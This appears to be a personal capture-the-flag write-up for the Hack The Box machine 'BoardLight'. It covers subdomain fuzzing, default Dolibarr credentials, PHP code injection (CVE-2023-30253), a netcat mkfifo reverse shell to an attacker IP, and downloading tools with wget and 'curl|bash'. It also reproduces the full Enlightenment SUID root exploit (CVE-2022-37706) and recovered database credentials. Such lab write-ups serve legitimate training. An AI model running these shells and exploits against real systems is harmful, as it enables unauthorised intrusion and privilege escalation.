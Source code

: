 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
	- port 80 : BoardLight
		- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
```
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
	- on searching google we see default creds is admin/admin
	- We also see the version and on searching online we see it has a vulnerability : PHP code injection
		- also has a github which automates it.
```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
- pass after logging in with creds
- Gain access as www-data
## Manual method
- create new website
	- add php code in Edit HTML Source
		- pass php command to check
			- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
		- pass command with new knowledge
```
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
- save and click Preview page.
- pass reverse shell 
- main exploit:
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.41 4455 >/tmp/f");?
```
- also pass php-reverse-shell.py into it and that works too.
- for both i keep netcat listener open on required port.
- both work. but we can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit which is shown below and explains the directory path having ;, abd the weird // and all to bypass the codes restrictions to pass the exploit)
```
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
- we check user and we are www-data
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
	- within that we find a dbuser and password.
```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
	- Can also check(more ideal enumeration)
```
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
- shows user larissa can run bash
- ssh into machine with db_pass.
	- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
	- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
```
sudo python3 -m http.server 9898
```
- call linpeas from target
```
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
```
find / -type f -perm -4000 2>/dev/null
```
- We find an enlightenment file which is unusual
- can't execute this as www-data
- can check version with larissa
```
englightenment --version
```
- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
	- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
		- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
```
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
- We gain root privileges
- root flag at /root/
